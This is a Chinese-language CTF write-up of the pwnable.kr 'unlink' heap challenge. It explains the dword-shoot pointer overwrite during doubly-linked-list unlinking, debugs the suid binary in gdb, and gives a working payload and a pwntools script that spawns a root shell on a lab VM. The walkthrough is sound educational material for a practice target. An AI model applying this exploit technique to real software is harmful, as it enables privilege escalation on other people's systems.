# Dword shoot Unlink pwnable.kr

Dword shoot，一种很简单的漏洞溢出技巧，所以就简单的说明一下吧。dword shoot 漏洞是出现在双向链表表删除的时候出现的一种漏洞类型。在进行双向链表的操作过程中如果因为处置不当，比如溢出等等的情况下，构成双向链表的指向前一个和后一个节点的两个指针被恶意的改写的话，就会在链表删除的时候发生的漏洞。

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)

本题来自http://pwnable.kr/play.php，可线上做题

```
ssh unlink@pwnable.kr -p2222 (pw: guest)
```

关闭 ASLR，打开栈可执行编译 uaf.c，并将编译好的程序设置成 root 所有 suid 程序

```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo chown root:root unlink
sudo chmod 4755 unlink
```



通过分析源代码，我们可以发现又一个 shell 函数。这显然是想让我们获取root shell

```c
//关掉栈保护，打开堆栈不可执行，关闭ASLR

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ
{
    struct tagOBJ *fd;
    struct tagOBJ *bk;
    char buf[8];
} OBJ;

void shell()
{
    setuid(geteuid());
    system("/bin/sh");
}

void unlink(OBJ *P)
{
    OBJ *BK;
    OBJ *FD;
    BK = P->bk;
    FD = P->fd;
    FD->bk = BK;
    BK->fd = FD;
}
int main(int argc, char *argv[])
{
    malloc(1024);
    OBJ *A = (OBJ *)malloc(sizeof(OBJ));
    OBJ *B = (OBJ *)malloc(sizeof(OBJ));
    OBJ *C = (OBJ *)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
}

```

堆上分配了三个结构体，它们了双链接，其中一个块的头包含一个指向前一个块和下一个块的指针。还有一个明显的溢出现象，可能会让我们破坏这些结构。在程序开始的时候，堆栈的地址可能会被泄露。

gdb 调试 unlink，反汇编 main 函数，从以下汇编代码可以看出，A，B，C 三个结构体在堆中的首地址都存放在了 eax 寄存器中，而且三个地址在栈的位置分别为：ebp-0x14，ebp-0xc，ebp-0x10。即 ebp-0x14=stack=&A。

```
gdb unlink
disas main
```



于是在这三个地方设置断点，查看 eax 寄存器的内容

```bash
b*0x080485ce
b*0x080485de
b*0x080485ee
```


```bash
i r eax
c
```



得到， A、B、C 的首地址分别为： `0x804b410`、`0x804b428`、`0x804b440`。即heap=`0x804b410`

在 gets 函数返回后设置断点，运行到断点处，查看堆和栈的内容



```bash
b*0x0804865a
r
x/40xw 0x0804b410
```



```bash
x/40xw $ebp-0x14
```



从源代码和堆中的内容可以看出双向链表的关系：A<-->B<-->C。而且 A 的 buf 数组首地址与 B 的首地址相距 16 字节。结构体中的指针 fd、bk 分别在结构体首地址+0、+4 的位置。

再看 unlink 函数的源代码：

```c++
void unlink(OBJ *P)
{
    OBJ *BK;
    OBJ *FD;
    BK = P->bk;
    FD = P->fd;
    FD->bk = BK;
    BK->fd = FD;
}
```

当执行 unlink（B）时，实际上是把结构体 B 从双向链表中删除，并修改 A、C 的中指针的指向。分析一下 unlink（B）的几条语句（[x]表示 x 指向的内存单元中的内容）：

`BK=P->bk `等价于` BK=[B+4] `

`FD=P->fd `等价于` FD=[B+0] `

`FD->bk=BK `等价于`[FD+4]=BK `

`BK->fd=FD `等价于`[BK+0]=FD`

即：

`[[B+0]+4]=[B+4]`

`[[B+4]+0]=[B+0]`

这就给了我们两次修改任意内存的机会。再看到 main 函数最后的几条汇编代码：



最后的 ret，作用是将 esp 指向的内容赋值给 eip，即 eip=[esp]。而 eip 寄存器相对于 pc 寄存器，存放的是下一条要执行的指令。


通过 `lea     -0x4(%ecx),%esp` 可以知道 `esp=ecx-4`。

通过 `mov     -0x4(%ebp),%ecx `可以知道 `ecx=[ebp-4]`。

因此，**攻击思路为：**将ebp-4 指向的内容改成shell 函数地址的指针+4，即&shell+4，这样的话，当最后执行 ret 指令时，esp 指向的内容就是 shell 函数的地址，赋值给 eip 后就会去执行 shell 函数。通过 A 的 buf，覆盖 B 的 fd 和 bk 指针，unlink （B）执行后就能修改 ebp-4 的值。查看 shell 函数的地址：

 


shell 函数的地址为 `0x804854b`。

unlink 函数提供了两次修改内存的机会，这里使用第二次机会，即`[[B+4]+0]=[B+0]`

shell 的地址（`0x804854b`）我们放在 A 的 buf 前四字节处，即` heap+8=0x804b418`处。

B 的 bk 指针，即[B+4]的内容我们覆盖成 ebp-0x4，由 ebp-0x14=stack 可知，`ebp-0x4=stack+0x10=0xbffff344`.

B 的 fd 指针，即[B+0]的内容我们覆盖成 heap+8+4=0x804b41c 处。先把地址写入文件，再让程序从文件中读入数据：

```bash
echo $(python -c "print '\x4b\x85\x04\x08'+'a'*12+'\x1c\xb4\x04\x08'+'\x44\xf3\xff\xbf'") > badfile
```

gets 函数执行之后，unlink 函数执行之前：

```scala
b*0804865a
b*08048668
b*08048677
r <badfile
x/40wx 0x0804b410
```



unlink 函数执行之后：

```scala
x/40wx 0x0804b410

x/40wx $ebp-0x14
```

 

执行 ret 指令之前：

```bash
p $esp
```


可以看到，确实修改了 esp，使得他指向 shell 函数的地址，但是攻击依然不成功。

```
c
```



但是远程攻击却能成功：

```asp
ifconfig
```



ip 地址为 192.168.191.128

使用 Python 程序来攻击，代码如下：

```python
from pwn import *
connect = ssh(host="192.168.191.128", port=22, user="seed", password="dees")
op = connect. run("./unlink")
shell_addr = 0x0804854b
op.recvuntil(b"here is stack address leak: ")
stack_addr = int(op. recv(10), 16)
op.recvuntil(b"here is heap address leak: ")
heap_addr = int(op. recv(10), 16)
print("stackAddress: ", hex(stack_addr))
print("heapAddress :", hex(heap_addr))
op.recvline()
ebp_4 = stack_addr + 0x10
heap_c = heap_addr + 0xc
payload = p32(shell_addr)*4 + p32(heap_c) + p32(ebp_4)
op.send(payload)
op.interactive()

```



攻击成功！
